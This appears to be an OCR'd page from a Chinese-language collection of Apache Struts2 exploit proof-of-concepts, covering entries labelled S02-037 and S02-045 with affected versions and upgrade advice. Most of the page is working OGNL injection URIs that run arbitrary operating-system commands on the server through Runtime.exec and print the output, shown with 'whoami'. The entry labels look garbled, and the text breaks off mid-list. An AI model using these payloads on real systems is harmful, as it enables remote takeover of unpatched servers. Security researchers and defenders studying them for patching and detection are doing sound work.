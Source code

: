 ###### URI POC

```
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=whoami&pp=%5C%5CA&ppp=%20&encoding=UTF-8
```

###### URI POC [greaty]

```
?method:%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C%23f%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.cmd%5B0%5D%29%2C%23f.close&cmd=whoami
```

---

#### S02-037

> Problem:
> 
> 在使用REST插件时，以及 Dynamic Method Invocation is enabled.（也就是开启动态方法执行）可以通过恶意表达式在服务器端执行任意代码。
> 
> Affected Software: 
> 
> Struts 2.3.20 - Struts Struts 2.3.28.1
> 
> Solution:
> 
> Upgrade to Apache Struts version 2.3.29

###### URI POC 固定类型地址

```
/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command%5B0%5D).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7556&command=whoami
```

---

#### S02-045 HEAD DATA

> Problem:
> 
> 使用Jakarta插件处理文件上传操作时可能导致远程代码执行漏洞。
> 
> Affected Software: 
> 
> Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
> 
> Solution:
> 
> 1
> 
> 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
> 
> 删除commons-fileupload-x.x.x.jar文件（会造成上传功能不可用）
> 
> 一定不要使用如下的方式
> 
> 2
> 